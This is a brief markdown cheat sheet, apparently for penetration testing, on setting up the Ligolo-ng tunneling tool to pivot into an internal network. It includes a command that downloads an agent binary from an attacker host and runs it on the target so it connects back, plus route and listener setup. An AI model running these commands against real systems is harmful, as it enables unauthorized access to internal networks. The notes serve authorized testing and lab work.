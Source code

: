# Ligolo Proxy setup and generals Commands

https://www.hackingarticles.in/a-detailed-guide-on-ligolo-ng/
<img width="897" height="391" alt="image" src="https://github.com/user-attachments/assets/ff261fe4-d9a4-4cf0-91c8-2d7d19f4d61d" />

### Get ligolo 

https://github.com/nicocha30/ligolo-ng
Install the ‘agent’ file on the target machine and the ‘proxy’ file on the attacking machine (Kali Linux).

### setup ligolo
ROOT on attacker machine:
```
ip tuntap add user root mode tun ligolo
ip link set ligolo up
ifconfig
```
<img width="725" height="104" alt="image" src="https://github.com/user-attachments/assets/47f55501-344b-4643-9742-5956cb70a79b" />


start proxy : 

```
./proxy -selfcert
```

```
 wget 192.168.1.5/agent.exe -o agent.exe
./agent.exe -connect 10.10.10.10:11601 -ignore-cert
```

```
ip route add 10.10.10.0/24 dev ligolo
ip route list
```

<img width="1134" height="267" alt="image" src="https://github.com/user-attachments/assets/b7e7b7ec-e82c-4245-9b47-b1af5696bf67" />

<img width="1413" height="93" alt="image" src="https://github.com/user-attachments/assets/30a2d250-14ad-4ea1-a66c-400dfaf4c996" />

now link is seen as up. let's nmap everythings !

### Others commands


add a listener on (pivot machine:port -- to localhost machine:port)
```
listener_add --addr 0.0.0.0:8443 --to 127.0.0.1:1337
```


